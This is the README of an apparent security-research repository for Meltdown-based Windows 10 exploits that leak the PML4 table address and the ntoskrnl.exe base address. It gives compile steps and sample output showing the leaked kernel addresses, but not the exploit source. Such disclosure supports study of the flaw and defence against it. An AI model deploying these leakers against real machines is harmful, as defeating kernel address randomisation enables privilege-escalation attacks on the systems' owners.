 
#Windows Shadow leaking

This repository contains the Windows Meltdown exploits described in the [Windows Shadow leaking (via Meltdown) blogpost](https://labs.bluefrostsecurity.de/blog/2020/06/30/windows-shadow-leaking-via-meltdown/), which can be used to leak the PML4 table address and the "ntoskrnl.exe" base address in the latest "Windows 10" versions (RS7 and 20H1).

## Sources compilation

Using the Visual Studio 64-bit command line compiler, just follow the steps bellow:

For compiling the PML4 leaker:
- Execute "cl.exe pml4leak-melt.c"

For compiling the NT leaker:
- Execute "cl.exe ntleak-melt.c"

## Output examples

PML4 table address leaker output example:

'''
C:\Users\Public>pml4leak-melt.exe

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 16 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

C:\Users\Public>
'''

NT base address leaker output example in targets with RAM memory equal or higher than 4GB:

'''
C:\Users\Public>ntleak-melt.exe
[+] Win10 build number: 19041
[+] RAM detected: 4GB

[+] Leaking PML4...
 [+] Try 0/10
[+] Elapsed time: 15 ms
[+] PML4: fffff178bc5e2000 (entry 1e2)

[+] Leaking NT base address...
 [+] PML4 entry found: fffff178bc5e2f80 (entry 0x1f0)
  [+] PDPT entry found: fffff178bc5f0000 (entry 0x0)
   [+] PD entry found: fffff178be0003e8 (entry 0x7d)
   [+] PD entry found: fffff178be000518 (entry 0xa3)
    [+] PT entry found: fffff17c000a3108 (entry 0x21)

[+] NT base delta: 0xa21000
[+] NT POINTER: 0xfffff80014621000
[+] NT BASE: 0xfffff80013c00000

[+] Elapsed time: 141 ms
[+] NT base address: 0xfffff80013c00000 (entry 0xa3)

C:\Users\Public>
'''
